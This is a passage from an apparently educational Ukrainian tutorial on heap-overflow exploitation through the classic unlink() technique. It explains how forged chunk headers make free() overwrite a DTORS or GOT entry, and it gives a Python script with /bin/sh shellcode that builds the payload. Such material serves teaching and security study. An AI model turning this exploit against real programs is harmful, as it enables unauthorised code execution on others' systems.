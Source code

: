 Отже, якщо нам вдасться змінити P->bk на адресу shellcode і P->fd на адресу запису в GOT або DTORS мінус 12, досягнемо:

BK = P->bk = \&shellcode\
FD = P->fd = &\_\_dtor\_end\_\_ - 12\
FD->bk = BK -> \*((&\_\_dtor\_end\_\_ - 12) + 12) = \&shellcode

І таким чином shellcode виконається при виході з програми.

Крім того, 4-е вираз unlink() записує щось, і shellcode повинна бути виправлена для цього:

BK->fd = FD -> \*(\&shellcode + 8) = (&\_\_dtor\_end\_\_ - 12) —> Це призводить до запису 4 байтів починаючи з 8-го байта shellcode, тому перша інструкція shellcode повинна бути jmp, щоб пропустити це і перейти до nops, які ведуть до решти shellcode.

Отже, експлойт створюється так:

У буфер1 ми вставляємо shellcode, починаючи з jmp, щоб вона потрапила в nops або до решти shellcode.

Після shell code вставляємо заповнення до досягнення поля prev\_size та size наступного шматка. В цих місцях ми вставляємо 0xfffffff0 (щоб перезаписати prev\_size, щоб вказати, що він вільний) і “-4“(0xfffffffc) в size (щоб при перевірці в 3-му шматку, чи 2-й був вільний, насправді перейти до зміненого prev\_size, який скаже, що він вільний) -> Таким чином, коли free() досліджує, він перейде до size 3-го, а насправді перейде до 2-го - 4 і вважатиме, що 2-й шматок вільний. І тоді викличе **unlink()**.

При виклику unlink() використовується як P->fd перші дані 2-го шматка, тому туди вставляється адреса, яку потрібно перезаписати - 12 (оскільки в FD->bk він додасть 12 до адреси, збереженої в FD). І в цю адресу вставляється друга адреса з 2-го шматка, яка повинна бути адресою shellcode (фальшивий P->bk).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes de relleno** **shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Цікаво, що біт, який вказує, що попередній шматок вільний, дорівнює 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, щоб вважати, що "size" 3-го шматка знаходиться на 4 байти позаду (вказує на prev\_size), оскільки саме там перевіряється, чи вільний 2-й шматок**

**addr\_sc = pack("\<I", 0x0804a008 + 8) #У пейлоуді спочатку ми додаємо 8 байтів заповнення**

**got\_free = pack("\<I", 0x08048300 - 12) #Адреса free() в plt-12 (це адреса, яка буде перезаписана, щоб запустити shellcode при другому виклику free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) #Як було сказано, пейлоуд починається з 8 байтів заповнення**

**payload += prev\_size + fake\_size + got\_free + addr\_sc #Модифікуємо 2-й шматок, got\_free вказує на місце, де ми збережемо адресу addr\_sc + 12**
